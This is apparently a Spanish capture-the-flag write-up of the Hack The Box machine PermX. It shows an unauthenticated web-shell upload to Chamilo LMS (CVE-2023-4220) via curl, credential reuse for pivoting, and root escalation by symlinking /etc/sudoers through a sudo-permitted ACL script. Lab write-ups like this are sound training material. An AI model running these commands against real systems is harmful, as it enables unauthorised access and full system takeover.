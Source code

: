 #Easy #fuzzing #role #tecnicas 

### Ping

```python
ping -c 1 10.10.11.23
PING 10.10.11.23 (10.10.11.23) 56(84) bytes of data.
64 bytes from 10.10.11.23: icmp_seq=1 ttl=63 time=156 ms

--- 10.10.11.23 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 155.524/155.524/155.524/0.000 ms
```

### TTL = 63 Linux

### nmap

```python
# Nmap 7.94SVN scan initiated Fri Jul 12 13:52:19 2024 as: nmap -p- -open -sCV --min-rate 5000 -n -Pn -oN Scan 10.10.11.23
Nmap scan report for 10.10.11.23
Host is up (0.16s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 12 13:52:48 2024 -- 1 IP address (1 host up) scanned in 28.04 seconds
```

### Enumeración del puerto 80 (http)
no parece haber mucho en la web asi que vamos a seguir enumerando
![[Pasted image 20240712135330.png]]

### Fuzzing con ffuf
encontramos un subdominio `lms` que me llama la atención
![[Pasted image 20240712135420.png]]

`Chamilo lms`
hemos conseguido un LMS llamado chamilo así que intentaremos buscar alguna vulnerabilidad 
![[Pasted image 20240712140800.png]]

### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad     | Tipo | Nivel | Link                                                                               |
| -------------- | ------------------------------- | ---- | ----- | ---------------------------------------------------------------------------------- |
| CVE-2023-4220  | Unauthenticated Big Upload File | RCE  | 8.1   | [RCE](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc.git) |
|                |                                 |      |       |                                                                                    |
|                |                                 |      |       |                                                                                    |

```python

curl -F 'bigUploadFile=@shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'

```

de esta forma vamos a cargar un archivo malicioso en este caso llamado shell.php usando el parámetro `curl -F`
![[Pasted image 20240712140505.png]]

### Shell
estaremos a la escucha en el puerto que hemos especificado y navegamos hasta la ruta donde se ha subido el archivo
`http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php`
![[Pasted image 20240712141735.png]]

### User Pivoting
actualmente somos el usuario `www-data` y enumerando el sistema podemos conseguir un archivo que contiene credenciales
![[Pasted image 20240712151512.png]]

`chamilo`
usando las credenciales que hemos conseguido no hemos podido establecer conexión vía ssh ya que el usuario o la contraseña son incorrecta
![[Pasted image 20240712152044.png]]

`mtz`
enumerando el sistema podemos encontrar otro usuario y establecer la conexión vía ssh
![[Pasted image 20240712152253.png]]

### Escalada de privilegios
tenemos permisos de super usuario para el script `/opt/acl.sh` este archivo puede ser vulnerable ya que esta haciendo un llamado a `/etc/sudoers`
![[Pasted image 20240712161909.png]]

### Explotación del script /opt/acl.sh

```python
mtz@permx:~$ ln -s /etc/sudoers /home/mtz/sudoers
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/sudoers
mtz@permx:~$ nano sudoers 
mtz@permx:~$ sudo su
[sudo] password for mtz: 
```

![[Pasted image 20240712162102.png]]